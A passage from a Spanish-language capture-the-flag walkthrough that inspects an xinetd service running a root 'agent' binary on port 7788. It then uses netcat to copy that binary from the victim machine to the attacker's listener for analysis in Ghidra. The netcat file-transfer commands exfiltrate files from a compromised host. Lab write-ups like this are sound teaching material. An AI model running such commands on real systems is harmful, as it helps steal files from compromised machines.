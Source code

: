 Se ha encontrado un binario y un archivo de texto. Si leemos el contenido del archivo de texto, encontramos lo siguiente:

```
cat /etc/xinetd.d/agent
# default: on
# description: The agent server serves agent sessions
# unencrypted agentid for authentication.
service agent
{
       flags          = REUSE
       socket_type    = stream
       wait           = no
       user           = root
       server         = /usr/local/bin/agent
       log_on_failure += USERID
       disable        = no
       port           = 7788
}
```

Vamos a ejecutar el binario:

![](/assets/images/IMF/Pasted-image-20240605172613.png)

Necesitamos un 'ID', por lo que utilizaremos una herramienta llamada [Ghidra](https://github.com/NationalSecurityAgency/ghidra/releases) para analizar cómo está programado el binario antes de compilarlo. Primero, transferiremos el binario a nuestra máquina local:

```
# Máquina víctima
nc 192.168.3.5 443 < /usr/local/bin/agent
# Máquina local
nc -nlvp 443 > agent
```
